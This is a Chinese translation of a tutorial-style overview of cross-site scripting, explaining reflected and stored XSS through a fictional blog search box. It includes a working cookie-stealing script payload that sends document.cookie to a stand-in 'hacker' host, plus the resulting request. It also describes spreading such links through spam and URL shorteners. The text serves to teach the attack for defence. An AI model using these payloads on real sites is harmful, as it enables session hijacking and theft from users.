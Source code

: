 # XSS 的概述

# XSS 的概述

最重要的要了解 XSS 漏洞的是，他们是目前为止发现的，在所有网站超过 80％比例的定制 Web 应用程序中最常 见的漏洞。虽然跨站点脚本在一段时间内一直被认为是中等程度的的漏洞，但 XSS 蠕虫和病毒的出现，已经提高了 XSS 的评估。软件开发人员和安全专业人员需要知道它是多么简单，以防止代码开发过程中出现 XSS 漏洞，并且一经查出， 他们是多么容易解决。XSS 是一种攻击技术，它使得一个网站，写出攻击者提供的可执行代码，然后加载在用户的 Web 浏览器。也就是说，当黑客使用存在漏洞的网站作为攻击的通道时，用户是预定的受害者。

## 非持久型 XSS

(译者注：也叫反射型 XSS)

想想看，一个黑客想使用“([`victim/)/”网站对用户进行`](http://victim/)/”网站对用户进行) XSS 攻击。黑客会采取的第一个步骤是在 [`victim/`](http://victim/) 找出一个 XSS 漏洞，然后构造一个特制的 URL，也被称为链接。要做到这一点，黑客会搜寻网站上的客户端提供的数 据可以被发送到 Web 服务器，然后回显到屏幕上的任何功能，比如搜索框。

图一展现的是一种常见的在线发布的博客。XSS 漏洞往往出现在搜索框表单。在搜索字段中输入“test search”， 响应页面将用户输入的文本在显示在三个不同的位置，如图 2 所示。图下方是新的 URL。查询字符串中包含值为 “test+search”的“search”参数。这个 URL 值可以在运行时更改，甚至包括 HTML / JavaScript 的内容。

![image](img/Image_002.jpg)

图 1 [`victim/`](http://victim/)

图 2 [`victim/search.pl?search=test+search`](http://victim/search.pl?search=test%2Bsearch)

图 3 展示了原来的搜索词被替换为下面的 HTML / JavaScript 代码时会发生什么：

Example 1.

```
”><SCRIPT>alert(‘XSS%20Testing’)</SCRIPT> 
```

结果页面弹出了一个无害的警告对话框。根据提示，提交的代码已经成为 web 页面的一部分，证明了 JavaScript 已进入到[`victim/`](http://victim/%E7%9A%84%E4%B8%8A%E4%B8%8B%E6%96%87%E5%B9%B6%E5%BE%97%E5%88%B0%E6%89%A7%E8%A1%8C)的上下文并得到执行。图 4 展示了夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代 码。

![image](img/Image_003.jpg)

图 3，原来的搜索词将被替换为 HTML/ JavaScript 代码。

图 4，夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代码。

此时，黑客将会继续修改这个 URL，包含更复杂的 XSS 攻击来利用用户。一个典型的例子是一个简单的 cookie 盗 窃的攻击。

Example 2.

```
“><SCRIPT>var+img=new+Image();img.src=”http://hacker/”%20+%20document.cookie;</SCRIPT> 
```

前面的 JavaScript 代码创建一个图像 DOM（文档对象模型）对象。

```
var img=new Image(); 
```

因为 JavaScript 代码在“[`victim/`](http://victim/)”上下文中执行，所以它可以访问 cookie 数据。

```
document.cookie; 
```

图形对象然后指派一个外域的 URL 发送带有 Web 浏览器的 Cookie 字符串的数据到“[`hacker/`](http://hacker/)”。

```
img.src=”http://hacker/” + document.cookie; 
```

下面是一个例子，是一个被发送的 HTTP 请求。

Example 3.

```
GET http://hacker/path/_web_browser_cookie_data HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0 
```

一旦黑客完成了他的攻击代码，他会通过垃圾邮件，留言板的帖子，即时消息和其他方法宣传这种特制的链接， 试图吸引用户点击。是什么让这种攻击这么有效？用户可能点击正常的网络钓鱼邮件 7 中的链接是因为这个 URL 包 含了真正的网站域名，而不是一种外观相似的域名或随机的 IP 地址。应当注意的是，过长的 XSS 链接可以使用 URL 缩短服务，如 TinyURL.com 进行伪装。

## 持久型 XSS

(译者注：也叫存储型 XSS)

持久型（或 HTML 注入型）XSS 攻击最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来 执行。黑客仅仅需要提交 XSS 漏洞利用代码到一个网站上其他用户可能访问的地方。这些地区可能是博客评论，用户 评论，留言板，聊天室，HTML 电子邮件，wikis，和其他的许多地方。一旦用户访问受感染的网页，执行是自动的。 这使得持续性的 XSS 的危险性比非持久性高，因为用户没有办法保护自己。一旦黑客成功在某个页面注入了漏洞利

用代码，他将宣传受感染页面的 URL 来希望不知情的用户中招。即使用户对非持续性 XSS 的 URL 懂得识别，也会很 容易的受到影响(译者:中招)。

无论使用非持续性或持续性的 XSS 漏洞，黑客可以利用用户，导致网络和财务上的损失，有许多的方法。 从这点出发，我们将专注于的 XSS 病毒和蠕虫的攻击技术。欲了解更多 XSS 信息，请访问“跨站脚本常见问题解答 8”和“XSS 小抄 9” ，两个优秀的信息资源。